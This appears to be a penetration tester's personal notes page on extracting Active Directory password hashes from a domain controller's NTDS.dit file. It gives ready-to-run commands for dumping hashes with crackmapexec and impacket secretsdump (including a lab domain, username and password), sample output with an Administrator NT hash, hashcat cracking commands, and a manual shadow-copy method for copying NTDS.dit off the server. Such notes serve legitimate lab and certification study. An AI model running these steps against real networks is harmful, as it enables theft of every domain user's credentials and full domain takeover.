 -- -
The `NDTS.dit` file is the AD database file that holds the data for Users, Groups, Security descriptors, and password hashes for all the users in the domain. Keys of the kingdom, you own this you own the domain.
#### netexec
Should dump hashes to the terminal
```bash
crackmapexec smb <dc ip> -u <user> -p <passwd> --ntds
```
Take the NT hash, then crack:
```bash
hashcat -m 1000 <hashfile> <wordlist>
```
#### Secretsdump
```bash
# secretsdump.py or impacket-secretsdump, it's the same command
secretsdump.py <domain>/<da user>:'<da password>'@<dc ip> -just-dc-ntlm
secretsdump.py MARVEL.local/pparker:'Password2'@192.168.138.132 -just-dc-ntlm
``` 

Should spit out something like:
```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
```

Take out the NT hash, which is the last hash after colon:
```
920ae267e048417fcfe00f49ecbd4b33
```
Then Crack:
```bash
hashcat -m 1000 <hashfile> <wordlist>
```
#### Manual
```powershell
# make a backup of C:\ Drive
vssadmin CREATE SHADOW /For=C:

# above command will show the path to the copy, for example:
# \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2

# make a copy of the NTDS.dit file from the backup you just created
# plug in the path output above
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```
Then [[Dark Arts/File Transfer/~Home|File transfer]] to attack box for cracking